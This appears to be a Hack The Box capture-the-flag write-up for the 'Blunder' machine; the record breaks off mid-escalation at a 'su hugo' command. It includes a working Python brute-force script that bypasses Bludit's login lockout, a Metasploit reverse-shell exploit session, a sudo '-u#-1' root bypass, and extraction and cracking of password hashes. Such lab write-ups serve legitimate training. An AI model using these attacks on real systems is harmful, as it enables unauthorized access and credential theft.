






# HTB - Blunder

## Overview



This easy difficulty Linux machine featured a content management system that was new to me, and a simple to use but interesting way to bypass a common configuration used by system administrators to grant permissions without allowing root access.  It required writing a Python script to brute force a login, and had multiple ways to exploit the vulnerable service to gain access.  The root privilege escalation method was very realistic, but so simple and easy to do it was almost disappointing to complete this machine so quickly.

## Useful Skills and Tools

#### Bypass restrictions on running commands as root `sudo (ALL, !root) /bin/bash`

* `sudo` allows for the specification of running commands as a specific user with the `-u` flag. 
* To exploit the above restriction on running commands as `root` **in versions of `sudo` &lt; 1.8.28**
  * Instead of specifying a username with the `-u` flag, use the user's ID number \(root is `#0` for example, but will not work since commands as root are disallowed in this case.\)
  * Specify an invalid number which overflows the integer buffer for the command. The easy way to do this is to use `#-1` since this is an unsigned integer and will flip the bits around to be Integer\_Max -1.  
  * You must know the current user's password to do this, since you are running a `sudo` command.
  * ```text
    $ sudo -u#-1 /bin/bash
    Password: 
    # id
    uid=0(root) gid=1001(olduser) groups=1001(olduser)
    ```

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.191`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/blunder$ nmap -p- -sC -sV -oN blunder 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-06 19:11 EDT
Nmap scan report for 10.10.10.191
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 379.53 seconds
```

There was not much to work with from my nmap scan as only port 80 was open.


Since there was nothing else I could do, I navigated my web browser to the HTTP site hosted on port 80 and found a website of random facts about random subjects.

```text
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.191
+ Target Hostname:    10.10.10.191
+ Target Port:        80
+ Start Time:         2020-08-06 19:12:43 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: Bludit
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /admin/config.php: PHP Config file may contain database IDs and passwords.
+ /admin/cplogfile.log: DevBB 1.0 final (http://www.mybboard.com) log file is readable remotely. Upgrade to the latest version.
+ /admin/system_footer.php: myphpnuke version 1.8.8_final_7 reveals detailed system information.
+ OSVDB-3233: /admin/admin_phpinfo.php4: Mon Album from http://www.3dsrc.com version 0.6.2d allows remote admin access. This should be protected.
+ OSVDB-5034: /admin/login.php?action=insert&username=test&password=test: phpAuction may allow user admin accounts to be inserted without proper authentication. Attempt to log in with user 'test' password 'test' to verify.
+ OSVDB-376: /admin/contextAdmin/contextAdmin.html: Tomcat may be configured to let attackers read arbitrary files. Restrict access to /admin.
+ OSVDB-2813: /admin/database/wwForum.mdb: Web Wiz Forums pre 7.5 is vulnerable to Cross-Site Scripting attacks. Default login/pass is Administrator/letmein
+ OSVDB-2922: /admin/wg_user-info.ml: WebGate Web Eye exposes user names and passwords.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3093: /admin/auth.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/cfg/configscreen.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/cfg/configsite.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/cfg/configsql.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/cfg/configtache.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/cms/htmltags.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/credit_card_info.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/exec.php3: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/modules/cache.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/objects.inc.php4: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/script.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/settings.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/templates/header.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /admin/upload.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-4238: /admin/adminproc.asp: Xpede administration page may be available. The /admin directory should be protected.
+ OSVDB-4239: /admin/datasource.asp: Xpede page reveals SQL account name. The /admin directory should be protected.
+ OSVDB-9624: /admin/admin.php?adminpy=1: PY-Membres 4.2 may allow administrator access.
+ OSVDB-3092: /install.php: install.php file found.
+ /admin/account.asp: Admin login page/section found.
+ /admin/account.html: Admin login page/section found.
+ /admin/account.php: Admin login page/section found.
+ /admin/controlpanel.asp: Admin login page/section found.
+ /admin/controlpanel.html: Admin login page/section found.
+ /admin/controlpanel.php: Admin login page/section found.
+ /admin/cp.asp: Admin login page/section found.
+ /admin/cp.html: Admin login page/section found.
+ /admin/cp.php: Admin login page/section found.
+ /admin/home.asp: Admin login page/section found.
+ /admin/home.php: Admin login page/section found.
+ /admin/index.asp: Admin login page/section found.
+ /admin/index.html: Admin login page/section found.
+ /admin/login.asp: Admin login page/section found.
+ /admin/login.html: Admin login page/section found.
+ /admin/login.php: Admin login page/section found.
+ /admin/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /admin/status: Tomcat Server Status interface found (pass protected)
+ /admin/sites/new: ComfortableMexicanSofa CMS Engine Admin Backend (pass protected)
+ /.gitignore: .gitignore file found. It is possible to grasp the directory structure.
+ 26494 requests: 0 error(s) and 54 item(s) reported on remote host
+ End Time:           2020-08-06 20:16:15 (GMT-4) (3812 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

While manually checking out the site I ran `nikto`, which revealed a lot of security misconfigurations though not many seemed accessible without credentials. 


`The nikto scan did reveal an /admin/` page, at which I found a login page. I wasn't able to find anything useful and couldn't login without credentials.



There was also a `.gitignore` file that revealed a potential internal directory structure. Searching for `bl-plugins` led to [https://docs.bludit.com/en/getting-started/plugins](https://docs.bludit.com/en/getting-started/plugins).  Bludit turned out to be a content management system for hosting blogs.  

[https://www.bludit.com/](https://www.bludit.com/)

> Simple, Fast, Secure, Flat-File CMS


Don't Google **`bl-content`** to find information about this site.  I will not bring up what you are looking for!




Using dirbuster I found `install.php` which reported that Bludit is already installed.



I also found the file `todo.txt` which contained a potential username `fergus` and some hardening steps that were taken to secure the site.

```text
<!DOCTYPE html>
<html>
<head>
    <title>Bludit</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="robots" content="noindex,nofollow">

    <!-- Favicon -->
    <link rel="shortcut icon" type="image/x-icon" href="/bl-kernel/img/favicon.png?version=3.9.2">

    <!-- CSS -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/admin/themes/booty/css/bludit.css?version=3.9.2">
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/admin/themes/booty/css/bludit.bootstrap.css?version=3.9.2">

    <!-- Javascript -->
    <script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=3.9.2"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=3.9.2"></script>

    <!-- Plugins -->
    </head>
```

The header of the file `config.log` contained the line "`/bl-kernel/img/favicon.png?version=3.9.2`" which told me the version of the Bludit service was 3.9.2 . I did some research on "bludit 3.9.2 exploit" which led me to a few useful sites.

* [https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb)
* [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) 
* [https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi\_ssh.py](https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi_ssh.py) 
* [https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

From the information in these sites I gained enough information to craft a Python script to brute force the login of the CMS.  At first my script ran very slowly, so I looked up how to make the script multi-threaded to speed things up a bit.

```python
#!/usr/bin/env python3

import multiprocessing
import sys
import time
from multiprocessing import Queue
import re
import requests

def worker(cred_queue, success_queue):
    print('Starting new worker thread.')
    while True:
        try:
            password = cred_queue.get(timeout=10)
        except Queue.Empty:
            return 

        try:

                session = requests.Session()
                login_page = session.get(login_url)
                csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

                print('[*] Trying: {p}'.format(p = password))

                headers = {
                    'X-Forwarded-For': password,
                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
                    'Referer': login_url
                }

                data = {
                    'tokenCSRF': csrf_token,
                    'username': username,
                    'password': password,
                    'save': ''
                }

                login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

                if 'location' in login_result.headers:
                    if '/admin/dashboard' in login_result.headers['location']:
                        print()
                        print('SUCCESS: Password found!')
                        print('Use {u}:{p} to login.'.format(u = username, p = password))
                        print()
#For some reason I still can't get this to exit properly. 
#TODO: Fix this to clean up all threads and exit gracefully upon success
                        cleanup()
                        sys.exit()

        except Exception:
        #Make this exception more verbose and useful
            e = sys.exc_info()[2]
            print("Failed on: {0} {1}".format(password, str(e)))
            return

#        time.sleep(.5)

def file_to_list(wList):
    passlist= []
    #latin1 encoding is necessary to get `rockyou.txt` to work
    #this may cause problems with other lists
    #need to add check for encoding type on input file
    with open(wList, encoding='latin1') as wordList:
         templist = wordList.readlines()

         for word in templist:
             passlist.append(word.strip())

    return passlist


def cleanup(processes):
        # Wait for all worker processes to finish
    for p in processes:
        p.terminate()
        p.join()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Usage: python3 bludit-3.9.2-bruteForce-multi http://<ip> <username> </path/to/wordlist>')
        sys.exit()

    host = sys.argv[1]
    login_url = host + '/admin/login'
    username = sys.argv[2]
    wordlist = sys.argv[3]
    threads = 10
    passwords = file_to_list(wordlist)

    cred_queue = multiprocessing.Queue()
    success_queue = multiprocessing.Queue()
    procs = []

    print('Starting {0} worker threads.'.format(threads))
    for i in range(threads):
        p = multiprocessing.Process(target=worker,
                                    args=(cred_queue, success_queue))
        procs.append(p)
        p.start()

    print('Loading credential queue.')
    for pwd in passwords:
        cred_queue.put((pwd))

    # Print any successful credentials
    while not success_queue.empty():
        login_url, username, pwd = success_queue.get()
        print('SUCCESSFUL LOGIN at {0}: {1}/{2}'.format(login_url, username, word))
```

After writing my python brute-force program based off the one in the POC, I loaded it with `rockyou.txt` and let it run. After it ran most of the day and didn't get any results, I decided to try another direction. Since the site had plenty of text on it I decided to run `cewl` against it to build a custom wordlist. I also included all of the pages I had enumerated with `dirbuster`.



This worked much faster. It still had to go through a few thousand tries, but for my multi-threaded script it didn't take long.

## Initial Foothold


Now that I had a working username and password to the `/admin/` page I was able to use the exploit I had found. I poked around on the site a bit and found an upload page that looked interesting, but after a bit of quick searching I found out that there was a nice and easy MetaSploit module so I fired up `msfconsole`. 

[https://github.com/rapid7/metasploit-framework/pull/12542/files](https://github.com/rapid7/metasploit-framework/pull/12542/files)

```text
zweilos@kali:~/htb/blunder$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter session on many platforms using sessions -u <session_id>                                                                                               

msf5 > use linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.239.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(linux/http/bludit_upload_images_exec) > set LPORT 44446
LPORT => 44446
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  44446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.15.57:44446 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading zzYXCHGvEG.png...
[*] Uploading .htaccess...
[*] Executing zzYXCHGvEG.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.15.57:44446 -> 10.10.10.191:57506) at 2020-08-08 22:30:06 -0400
[+] Deleted .htaccess

meterpreter >
```

After doing a few quick configurations of the parameters for the exploit, I had a meterpreter shell.

## Road to User

```text
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-08-08 22:35:16 -0400  thumbnails

meterpreter > pwd
/var/www/bludit-3.9.2/bl-content/tmp
meterpreter > cd ..
meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/databases
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-04-28 06:24:44 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-04-28 06:35:30 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2019-11-27 06:53:41 -0500  plugins
100644/rw-r--r--  98831  fil   2020-08-08 22:39:58 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 06:28:54 -0400  site.php
100644/rw-r--r--  2276   fil   2020-04-28 06:24:44 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-04-28 06:24:44 -0400  tags.php
100644/rw-r--r--  1268   fil   2020-04-28 06:20:36 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 1.24 KiB of 1.24 KiB (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

The file `users.php` in the `/var/www/bludit-3.9.2/bl-content/databases/` folder sounded like a likely place to find some information about...users.

```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```

It contained what looked like a hash and salt value for an `Administrator` user. I loaded the hash into the program `hash-identifier` to see what it was.

```text
zweilos@kali:~/htb/blunder$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################                            
--------------------------------------------------                                                      
 HASH: bfcc887f62e36ea019e3295aafb8a3885966e265                                                    
Possible Hashs:                                                                                         
[+] SHA-1                                                                                               
[+] MySQL5 - SHA-1(SHA-1($pass))                                                                        

Least Possible Hashs:                                                                                   
[+] Tiger-160                                                                                           
[+] Haval-160                                                                                           
[+] RipeMD-160                                                                                          
[+] SHA-1(HMAC)                                                                                         
[+] Tiger-160(HMAC)                                                                                     
[+] RipeMD-160(HMAC)                                                                                    
[+] Haval-160(HMAC)                                                                                     
[+] SHA-1(MaNGOS)                                                                                       
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
[+] sha1(md5(sha1($pass)))
[+] sha1(sha1($pass))
[+] sha1(sha1($pass).$salt)
[+] sha1(sha1($pass).substr($pass,0,3))
[+] sha1(sha1($salt.$pass))
[+] sha1(sha1(sha1($pass)))
[+] sha1(strtolower($username).$pass)
--------------------------------------------------
```

The most likely hash type was SHA-1.  

### Further enumeration

After trying a few online hash-cracking sites and getting nowhere, I decided to keep looking before resorting to trying `hashcat` or `john`.

```text
meterpreter > cd /var/www/
meterpreter > ls
Listing: /var/www
=================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-19 10:13:22 -0400  bludit-3.10.0a
40775/rwxrwxr-x  4096  dir   2020-04-28 07:18:03 -0400  bludit-3.9.2
40755/rwxr-xr-x  4096  dir   2019-11-28 04:34:02 -0500  html

meterpreter > cd /var/www/bludit-3.10.0a
meterpreter > ls
Listing: /var/www/bludit-3.10.0a
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  .github
100644/rw-r--r--  582    fil   2019-10-19 04:10:46 -0400  .gitignore
100644/rw-r--r--  395    fil   2019-10-19 04:10:46 -0400  .htaccess
100644/rw-r--r--  1083   fil   2019-10-19 04:10:46 -0400  LICENSE
100644/rw-r--r--  2893   fil   2019-10-19 04:10:46 -0400  README.md
40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  bl-content
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-kernel
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-languages
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-plugins
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-themes
100644/rw-r--r--  900    fil   2020-05-19 06:27:40 -0400  index.php
100644/rw-r--r--  20306  fil   2019-10-19 04:10:46 -0400  install.php

meterpreter > cd bl-content
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content
===========================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-19 05:10:14 -0400  databases
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  pages
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  tmp
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  uploads
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  workspaces

meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content/databases
=====================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-05-19 05:03:34 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-05-19 05:03:34 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  plugins
100644/rw-r--r--  42844  fil   2020-05-19 05:03:34 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 05:03:34 -0400  site.php
100644/rw-r--r--  2276   fil   2020-05-19 05:03:34 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-05-19 05:03:34 -0400  tags.php
100644/rw-r--r--  597    fil   2020-05-19 05:10:13 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 597.00 B of 597.00 B (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

In the www folder I found that a newer version of the Bludit CMS had been installed. I hoped that I would find a newer version of the database, and was not disappointed.

### Finding user creds

The updated `users.php` file contained an \(un-salted!\) hash for the user Hugo.

```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{ 
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

I checked the `/home` folder to see what users were on this machine and there was indeed one named `hugo`!

```text
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-26 04:29:29 -0400  hugo
40755/rwxr-xr-x  4096  dir   2020-04-28 07:13:35 -0400  shaun
```



The first hash cracking website I tried the hash on immediately revealed the password as `Password120`.

### User.txt

Since there were no remote connection ports open such as SSH, I needed to switch users in the shell I had. I decided to switch to bash since I wasn't too sure what capabilities meterpreter might have, and my commands seemed limited.

```text
meterpreter > shell
Process 27233 created.
Channel 16 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ^Z
Background channel 16? [y/N]  n
ls
ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
